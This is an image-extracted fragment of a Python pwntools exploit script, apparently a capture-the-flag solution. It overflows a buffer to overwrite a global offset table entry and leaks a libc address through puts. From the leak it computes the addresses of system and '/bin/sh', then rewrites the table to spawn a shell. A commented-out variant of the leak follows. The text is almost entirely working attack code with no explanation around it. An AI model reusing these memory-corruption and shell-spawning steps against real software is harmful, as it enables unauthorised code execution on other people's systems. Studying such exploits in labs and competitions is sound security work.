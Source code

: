     # constraints:
    # [rsp+0x40] == NULL

    # 0x10a45c execve("/bin/sh", rsp+0x70, environ)
    # constraints:
    # [rsp+0x70] == NULL

    edit(2, "F" * (64 + 8) + p64(elf.got['free']))
    r.sendlineafter(">>","3")
    r.sendlineafter(":",str(0x400756))

    r.recvuntil("Content: ")
    leak = u64(r.recv(8).split()[0].ljust(8, "\x00"))
    libc_base = leak - libc.sym['puts']
    system = libc_base + libc.sym['system']
    binsh = libc_base + libc.search("/bin/sh").next()
    puts = libc_base + libc.sym['puts']

    one = libc_base + 0x10a45c

    log.info("leak: " + hex(leak))
    log.info("system: " + hex(system))

    edit(str(0x400756), p64(puts) + p64(0xdeadbeef) + p64(libc_base + libc.sym['printf']) + p64(0xdeadbeef) + p64(libc_base + libc.sym['read']) + p64(libc_base + libc.sym['fgets']) + p64(libc_base + libc.sym['calloc']) + p64(libc_base + libc.sym['getchar']) + p64(libc_base + libc.sym['setvbuf']) + p64(system) )
    r.sendline("/bin/sh")

    # edit(2, "F" * (64 + 8) + p64(0x602028))
    # r.sendlineafter(">>","3")
    # r.sendlineafter(":",str(0x00400776))

    # r.recvuntil("Content: ")
    # leak = u64(r.recv(8).split()[0].ljust(8, "\x00"))
    # libc_base = leak - libc.sym['printf']
    # system = libc_base + libc.sym['system']
    # binsh = libc_base + libc.search("/bin/sh").next()


    # log.info("leak: " + hex(leak))
    # log.info("system: " + hex(system))